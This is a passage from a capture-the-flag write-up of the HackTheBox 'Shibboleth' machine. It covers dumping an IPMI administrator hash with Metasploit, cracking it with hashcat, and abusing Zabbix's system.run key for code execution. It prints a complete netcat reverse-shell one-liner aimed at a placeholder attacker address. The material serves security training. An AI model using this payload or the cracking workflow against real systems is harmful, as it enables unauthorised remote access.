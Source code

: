 I fired up metasploit to use its ipmi modules

![](/images/img-hacking-ipmi-and-zabbix-in-hackthebox-shibboleth-1.png)

We have found an admin hash
```txt
Administrator:836b54da82180000cffc521f48855e4dc4c55663cafc675e4719b43992d8faadc55b2cb9fd8c2d5fa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:3c62b4109945ae35ba1998f6348ac490bbad6a65
```
Save the output in the hashcat format (by setting the correct options and rerunning the exploit) and use hashcat to crack the hash

```powershell
.\hashcat.exe -D2 -m 7300 .\passwords\shibboleth-ipmi.txt .\rockyou.txt
```
Cracked password: `**ilovepumk********`

Use the password to login as `Administrator` on the Zabbix portal.

# Zabbix Portal

I came across different articles/blogs discussing the exploitation via the Zabbix the API via `/api_jsonrpc.php` but all the requests to that endpoint returned 403 Forbidden status code.

![](/images/img-hacking-ipmi-and-zabbix-in-hackthebox-shibboleth-2.png)

I moved over to check for other ways to somehow get a shell on the system. In the Zabbix console, go to Configuration => Hosts => shibboleth.htb There we have many different pages one of which is `Items`. It contains different commands along with their respective keys. Let's create an item to see all the available items:

![](/images/img-hacking-ipmi-and-zabbix-in-hackthebox-shibboleth-3.png)

There is a specific key called `system.run[command,<mode>]` that looks interesting. It allows us to run commands on the host. We can have RCE on the system.

Reading through the documentation at [https://www.zabbix.com/documentation/5.0/manual](https://www.zabbix.com/documentation/5.0/manual) , I got to know that we just have to set the Key as the following and test if our reverse shell works:

First set up a netcat listener at port 1337 and set the key as follows:

```
system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc YOUR_IP_HERE 1337 >/tmp/f, nowait]
```

The second parameter `nowait` will be needed (default is set to `wait`). Without this parameter, the shell will drop immediately.

![](/images/img-hacking-ipmi-and-zabbix-in-hackthebox-shibboleth-4.png)

# Shell as zabbix user
